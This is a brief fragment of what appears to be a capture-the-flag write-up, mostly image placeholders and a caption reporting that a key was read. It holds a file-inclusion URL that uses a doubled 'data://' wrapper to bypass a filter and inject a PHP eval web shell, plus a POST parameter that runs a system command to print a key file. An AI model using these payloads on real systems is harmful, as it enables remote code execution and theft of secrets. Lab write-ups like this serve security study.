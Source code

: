 ![upload successful](/images/pasted-801.png)

成功读取key
`http://11.1.10.15:34073/start/index.php?page=dadata://ta://text/plan,<?php eval($_POST['shell']); ?>`
`shell=system('tac ../key.php');`
![upload successful](/images/pasted-803.png)